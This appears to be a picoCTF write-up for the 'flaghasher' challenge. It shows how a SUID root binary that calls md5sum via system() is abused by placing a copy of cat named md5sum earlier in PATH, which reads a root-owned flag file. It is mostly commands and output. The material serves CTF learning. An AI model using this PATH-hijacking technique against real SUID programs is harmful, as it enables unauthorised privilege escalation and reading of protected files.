# Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!Connect using `ssh @shape-facility.picoctf.net` with the password,  and run the binary named "flaghasher".You can get a copy of the binary if you wish: `scp @shape-facility.picoctf.net:~/flaghasher .`

# Solution
It seems that the binary has SUID bit set, so it will allow us to execute stuff as root if we are able to manipulate it's behavior.

```
ctf-player@pico-chall$ ls -la | grep -i flag
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher
```

If we execute the binary it returns the md5sum for the file /root/flag.txt

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

d41d8cd98f00b204e9800998ecf8427e
```

After reversing the binary we noticed that it loads a string to be used in system at offset 013a0.

![[Pasted image 20250330182216.png]]

This string contains the following command

```
[0x00001329]> ps @0x2040
/bin/bash -c 'md5sum /root/flag.txt'
```

With this in mind we can abuse the $PATH variable using a binary named md5sum in our current directory but with different functionality.

We are going to start this attack by copying the cat command to our current directory and renaming it md5sum.

```
ctf-player@pico-chall$ cp /bin/cat md5sum
ctf-player@pico-chall$ chmod u+x md5sum
ctf-player@pico-chall$ ls
flaghasher  md5sum
```

Now we add our current path to the PATH variable ...

```
ctf-player@pico-chall$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@pico-chall$ export PATH=./:$PATH
ctf-player@pico-chall$ echo $PATH
./:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

After that, we were successfully able to get the binary flaghasher to execute cat /root/flag.txt.

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU}
```
